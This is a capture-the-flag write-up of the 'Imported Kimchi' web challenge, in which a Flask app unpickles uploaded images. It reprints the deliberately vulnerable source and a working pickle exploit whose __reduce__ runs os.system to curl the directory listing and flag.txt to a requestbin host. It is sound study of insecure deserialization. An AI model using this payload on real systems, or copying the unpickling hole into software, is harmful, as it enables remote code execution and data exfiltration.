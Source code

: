 Title: Imported Kimchi
Date: 2022-03-14
Category: CTF writeups
Tags: web

# Imported kimchi

Even though I did not have the time to redeem the flag while the CTF was running I wanted to do a quick writeup since I haven't played with Pythons `pickle` module before.

The challenge was available under [https://imported-kimchi.cha.hackpack.club/](https://imported-kimchi.cha.hackpack.club/).

![challenge landing page]({static}/images/landing_page.png)

On the site a user can upload images which are then available under [https://imported-kimchi.cha.hackpack.club/images/](https://imported-kimchi.cha.hackpack.club/images/).

![upload page]({static}/images/upload.png)

The source code of the flask app was provided:

``` python
import uuid
from flask import *
from flask_bootstrap import Bootstrap
import pickle
import os

app = Flask(__name__)
Bootstrap(app)

app.secret_key = 'sup3r s3cr3t k3y'

ALLOWED_EXTENSIONS = set(['png', 'jpg', 'jpeg'])

images = set()
images.add('bibimbap.jpg')
images.add('galbi.jpg')
images.add('pickled_kimchi.jpg')

@app.route('/')
def index():
    return render_template("index.html", images=images)

@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'POST':
        image = request.files["image"]
        if image and image.filename.split(".")[-1].lower() in ALLOWED_EXTENSIONS:
            # special file names are fun!
            extension = "." + image.filename.split(".")[-1].lower()
            fancy_name = str(uuid.uuid4()) + extension

            image.save(os.path.join('./images', fancy_name))
            flash("Successfully uploaded image! View it at /images/" + fancy_name, "success")
            return redirect(url_for('upload'))

        else:
            flash("An error occured while uploading the image! Support filetypes are: png, jpg, jpeg", "danger")
            return redirect(url_for('upload'))

    else:
        return render_template("upload.html")

@app.route('/images/<filename>')
def display_image(filename):
    try:
        pickle.loads(open('./images/' + filename, 'rb').read())
    except:
        pass
    return send_from_directory('./images', filename)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

The problems seems to be with the use of pythons `pickle` module.
David Hamann wrote a [blog post](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) about the issue with unpickling untrusted user input.

In a similar fashion we can create a python script that creates a file that when unpickled reads the flag:

``` python
import pickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('curl https://requestbin.io/1bmggxr1 -X POST -d "$(ls -la; cat flag.txt)"',))

shellcode = pickle.dumps(Exploit())
f = open('images/asdf.png', 'w+b')
f.write(bytearray(shellcode))
f.close()
```

The python script uses the `pickle.dumps` function to create a pickled object of type `Exploit`.
This class implements the `__reduce__` function that is called when the object is unpickled.
During unpickling this function uses `os.system` to read the contents of the current directory, as well as the flag and sends it via an HTTP POST request to a requestbin that can be easily created on [https://requestbin.io](https://requestbin.io)

![screenshot requestbin]({static}/images/requestbin.png)
